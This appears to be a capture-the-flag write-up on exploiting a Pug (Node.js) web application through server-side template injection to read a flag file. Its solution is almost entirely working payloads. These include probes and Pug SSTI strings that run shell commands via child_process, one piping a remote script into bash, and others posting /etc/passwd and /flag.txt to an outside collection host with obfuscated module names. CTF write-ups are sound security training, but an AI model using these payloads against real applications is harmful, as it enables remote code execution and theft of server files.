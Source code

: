 # CTF Name – Defeat the Pug!

- **Category:** category
- **Points:** points

## Challenge

> The Pug is not only a companion of Chinese Emperors, the mascot of Holland's royal House of Orange, but also an expert at developing web applications! But the Pug has a fatal flaw that he does not realise yet, can you retrieve the "flag.txt" file in the "/" directory to win?

## Solution

No reflected xss

Try template injections:

```
${7*3}
<%= 7*3 %>
{{7*3}}
#{7*7}
```

#{7*3} rendered nothing - possible target

## Encode # gives result
Example https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pugjs-nodejs

```
#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('touch /tmp/pwned.txt')}()}

#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('curl 10.10.14.3:8001/s.sh | bash')}()}
```

## Exfil /etc/passwd to your server

`%23{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad(String.fromCharCode(99,104,105,108,100,95,112,114,111,99,101,115,115)).exec('curl -F file=@/etc/passwd https://en6sb71obktq2.x.pipedream.net')}()}`

## Exfil the flag

`http://pugster.seekurity.com.au:8000/search?id=%23{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad(String.fromCharCode(99,104,105,108,100,95,112,114,111,99,101,115,115)).exec('curl -F file=@/flag.txt https://en6sb71obktq2.x.pipedream.net')}()`


```
flag{awww-the-pug-has-been-defeated-sad-puppy}
```
